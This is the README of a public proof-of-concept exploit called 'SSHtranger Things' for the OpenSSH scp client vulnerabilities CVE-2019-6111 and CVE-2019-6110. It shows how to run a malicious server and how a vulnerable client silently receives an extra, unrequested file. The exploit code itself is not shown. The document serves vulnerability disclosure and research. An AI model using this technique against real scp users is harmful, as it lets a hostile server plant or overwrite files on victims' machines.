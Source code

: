 SSHtranger Things
=================

**Author:**    Mark E. Haase &lt;mhaase@hyperiongray.com&gt;  
**Date:**      2019-01-17  
**CVE:**       [CVE-2019-6111](https://nvd.nist.gov/vuln/detail/CVE-2019-6111), [CVE-2019-6110](https://nvd.nist.gov/vuln/detail/CVE-2019-6110)  
**Advisory:**  https://sintonen.fi/advisories/scp-client-multiple-vulnerabilities.txt  
**Tested on:** Ubuntu 18.04.1 LTS, OpenSSH client 7.6p1  

Demo
----

![demo of exploit running](demo.gif)

Discussion
----------

We have nicknamed this "SSHtranger Things" because the bug is so old it could be
exploited by an 8-bit Demogorgon. Tested on Python 3.6.7 and requires `paramiko`
package.

The server listens on port 2222. It accepts any username and password, and it
generates a new host key every time you run it.

    $ python3 sshtranger_things.py

Download a file using a vulnerable client. The local path must be a dot:

    $ scp -P 2222 foo@localhost:test.txt .
    The authenticity of host '[localhost]:2222 ([127.0.0.1]:2222)' can't be established.
    RSA key fingerprint is SHA256:C7FhMqqiMpkqG9j+11S2Wv9lQYlN1jkDiipdeFMZT1w.
    Are you sure you want to continue connecting (yes/no)? yes
    Warning: Permanently added '[localhost]:2222' (RSA) to the list of known hosts.
    foo@localhost's password:
    test.txt                                       100%   32     0.7KB/s   00:00

The file you requested (e.g. `test.txt`) will be saved in your current
directory. If your client is vulnerable, you will have an additional file
`exploit.txt` created in your current directory.

    $ cat test.txt
    This is the file you requested.
    $ cat exploit.txt
    SSHtranger Things

The interesting code is in `ScpServer.send_file()`.
